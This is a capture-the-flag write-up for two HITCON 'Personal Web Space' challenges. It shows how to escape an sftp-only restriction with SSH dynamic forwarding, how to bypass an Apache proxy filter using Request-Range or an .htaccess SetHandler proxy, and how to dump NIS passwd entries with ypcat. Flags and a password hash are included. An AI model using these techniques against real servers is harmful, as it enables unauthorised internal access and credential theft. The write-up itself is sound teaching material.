

# Personal Web Space 1
- Tags: `web`, `misc`
- Score: 262/500
- Solves: 27

## Description
> Your dream space to create your own website.
> 
> <http://www.pws.chal.hitconctf.com/>

## Overview

<!-- digraph {
    rankdir="LR";
    node [shape=ellipse];
    login [label="login (node20)\n172.26.0.20"];
    web [label="web (node10)\n172.26.0.10"];
    
    node [shape=box];
    internal;

    edge [fontsize=12]
    web -> login [label="nis" len=4];
    login -> web [label="home" len=4];
    web -> internal [label="http" len=2.5 lp=""];
    login -> internal [label="\nTCP\nforward" len=2.5];

    overlap=true;
    splines=line;
}
-->

ssh (sftp) TCP forwarding + access LAN

## Recon
1. By scanning or direct access, one can get robots.txt -> flag.txt, apache2.zip.
2. Read apache2 conf, find that /flag.txt is ProxyPass to http://internal/flag.txt, but flag got substituted.  
   In addition, `Range` header has been unset.  
   ```apache
   # location /flag.txt -> reverse proxy to the internal/flag.txt
   <Location /flag.txt>
      ProxyPass http://internal/flag.txt
      # what are u trying to do?
      RequestHeader unset Range

      # censor flags in the response
      AddOutputFilterByType SUBSTITUTE text/plain
      Substitute "s/hitcon\{.*?\}/hitcon\{**censored**\}/"
   </Location>
   ```
3. SFTP is run by openssh-server.  
   Read /etc/ssh/sshd_config with sftp, find that group `webuser` has been restricted to `internal-sftp` by `ForceCommand`, so no shell access.  
   ```ssh-config
   Match Group webuser
     ForceCommand internal-sftp
   ```

## Solution
Look further, you can notice that `AllowTcpForwarding` defaults to `yes`, and there is no further restriction on group `webuser`.

In addition, if you look at last few lines of sshd_config, you will see example for `anoncvs`:
```ssh-config
#Match User anoncvs
#       X11Forwarding no
#       AllowTcpForwarding no
#       PermitTTY no
#       ForceCommand cvs server
```
`AllowTcpForwarding` is explicitly set to `no` here, which would be the hint for use TCP forwarding feature.


Create dynamic forwarding tunnel with no tty (`-N`).  
```bash
ssh -D 4090 -N userXXX@file.pws.chal.hitconctf.com
```

Then you can fetch the internal server through tunnel (`-x socks5h` for DNS lookup through proxy).  
```bash
curl -x socks5h://localhost:4090 http://internal/flag.txt
```

## Unintended Solution
### `Request-Range`
Quite old (MSIE3 and Netscape 2 and 3) header works like `Range`, but apache still supports it.  
Ref: https://cwiki.apache.org/confluence/display/HTTPD/CVE-2011-3192

### `SetHandler "proxy:xxx"`
apache2/mods-enabled/userdir.conf has `FileInfo` in `AllowOverride` by default.
```apache
UserDir public_html
UserDir disabled root

<Directory /home/webuser/*/public_html>
	AllowOverride FileInfo AuthConfig Limit Indexes
	Options MultiViews Indexes SymLinksIfOwnerMatch IncludesNoExec
	Require method GET POST OPTIONS
</Directory>
```

`FileInfo` includes `SetHandler`[^1]; in addition, if you refers to `SetHandler` [docs](https://httpd.apache.org/docs/2.4/mod/core.html#sethandler) or mod_proxy [docs](https://httpd.apache.org/docs/2.4/mod/mod_proxy.html#handler), you would notice that `SetHandler` can be used to setup proxy.

Therefore, following config in `.htaccess` does the trick:

```apache
SetHandler "proxy:http://internal/flag.txt?"
```

Notice the trailing `?`, it escapes the original path that is concatenated at the end of url proxied to internal node.

```
172.26.0.10 - "GET /flag.txt/home/webuser/user1/public_html/ HTTP/1.1" 404 196
172.26.0.10 - "GET /flag.txt HTTP/1.1" 304 -
172.26.0.10 - "GET /flag.txt HTTP/1.1" 304 -
172.26.0.10 - "GET /flag.txt?/home/webuser/user1/public_html/ HTTP/1.1" 200 45
```

[^1]: https://httpd.apache.org/docs/2.4/mod/overrides.html#override-fileinfo

## Flag
<details>
<summary>Spolier</summary>

`hitcon{My_l4n_had_b33n_sEEn_through_why??!!}`
</details>

---

# Personal Web Space 2
- Tags: `misc`
- Score: 305/500
- Solves: 15

## Description
> Dear hacker,  
> I noticed that someone called flagholder has the flag, can you login to his account to find the secret for me?  
> Flag format: `hitcon{<unix password hash of flagholder>}`

## Overview
ssh (sftp) TCP forwarding + access LAN + NIS credential dump

## Recon
Read /etc/passwd on login node, and see no `flagholder` and other webusers but `+::::::`.  
Then check `/etc/nsswitch.conf`, you will see `nis`.

## Solution
To dump the passwd on the NIS master, one can use `ypcat`.  
But it needs info about who is the NIS master and what is the NIS domain.  

The system is built on Ubuntu (debian-based), so one can refer to Debian [wiki](https://wiki.debian.org/BullseyeNis#A2) for NIS setup on Debian.  
Simply read `/etc/yp.conf` on login node for NIS server hostname (`node10`), and `/etc/defaultdomain` for NIS domain (`hitcon`).

In addition, one need to find the IP address for `node10`.  
This can be done by reading /proc/net/arp on login node:
```
IP address       HW type     Flags       HW address            Mask     Device
172.26.0.1       0x1         0x2         02:42:eb:9c:c3:4d     *        eth0
172.26.0.10      0x1         0x2         02:42:ac:1a:00:0a     *        eth0
```
Or reading `/etc/hosts`:
```
172.26.0.20     node20.hitcon node20
```
To infer that `node10` is `172.26.0.10`.

`man ypcat`
```
ypcat [ -kt ] [ -d domain ] [ -h hostname ] mapname
```

Run ypcat with collected hostname/domain through proxychains to pass traffic through the tunnel.  
```bash
proxychains ypcat passwd -h 172.26.0.10 -d hitcon
```

## Flag
<details>
<summary>Spolier</summary>

`hitcon{$y$j9T$LNmGE79e0l4Rj6bKhTosA1$rP24Qc3XWuTvNKKn0fes4WWjbcptfskAaRQInBbKIO2}`
</details>

